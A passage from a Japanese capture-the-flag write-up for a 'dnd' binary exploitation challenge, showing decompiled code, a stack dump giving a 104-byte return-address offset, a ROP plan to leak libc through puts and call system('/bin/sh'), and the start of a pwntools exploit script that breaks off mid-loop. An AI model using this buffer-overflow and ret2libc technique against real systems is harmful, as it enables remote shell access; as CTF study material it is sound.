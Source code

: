 ```c++
bool Game::DidWin(byte *param_1)

{
  return 99 < *param_1;
}
```

なんやかんやで`win`の`fgets`まで行くスクリプトが書けたので、後はoffset等を求めていく。win関数のfgets終了直後の状態は以下の通り。  
`0x41414141...`が入力したAの羅列である。`0x0000000000402c79`がmainへのretaddrなので、offsetは`8*13 = 104bytes`となる。  
```
0x7fffffffe0c0: 0x4141414141414141      0x00007fffffff000a
0x7fffffffe0d0: 0x00007fffffffe100      0x00007fffffffe150
0x7fffffffe0e0: 0x00007fffffffe120      0x0000000000403820
0x7fffffffe0f0: 0x0000000000000001      0x00007fffffffe150
0x7fffffffe100: 0x00007fffffffe120      0x00007fffffffe150
0x7fffffffe110: 0x00007fffffffe15d      0x0000000000000001
0x7fffffffe120: 0x00007fffffffe190      0x0000000000402c79
```

libcリークしたいのでputsを使ってputsのアドレスをリークしたい。  
`dnd_pathced`の中には`pop rdi; ret`が無いため関数呼び出しができないことに気づく。libcを使いたいが、そのベースアドレスを求めるためにROPしているのであって本末転倒である。  

下記よりret2csuは使えない(glibc2.34以上が使えない)
```
[figaro@figaro-endeavour dnd]$ strings libc.so.6 | grep version
...
GNU C Library (Ubuntu GLIBC 2.39-0ubuntu8.4) stable release version 2.39.
...
```

pwntoolsは認識しないが、ROPgadgetしたら`pop rdi; nop; pop rbp; ret`を見つけたのでこれを使ってみる。  
win関数の一回目で`puts(puts@got)`を行ってlibc baseをリークし、そのまま二回目のwin関数を実行させる。二回目のwin関数で`system("/bin/sh")`を行って終了。  
```python
from pwn import *

bin = './dnd_patched'
elf = context.binary = ELF(bin)
libc = ELF('./libc.so.6')

#p = process(bin)
p = remote('dnd.chals.damctf.xyz', 30813)
cnt = 1

while cnt <= 5:
    p.recvuntil(b'Health: ')
    current_health = int(p.recvuntil(' '), 10)

    p.recvuntil(b'Attack: ')
    current_attack = int(p.recvuntil('\n'), 10)

    p.recvuntil(b'(')
    monster_health = int(p.recvuntil(' ', 10))

    p.recvuntil(b', ')
    monster_damage = int(p.recvuntil(' ', 10))

    print(f'current_health: {current_health}')
    print(f'current_attack: {current_attack}')
    print(f'monster_health: {monster_health}')
    print(f'monster_damage: {monster_damage}')


    p.recvuntil(b'[r]un? ')
    if (current_attack <= monster_health):
```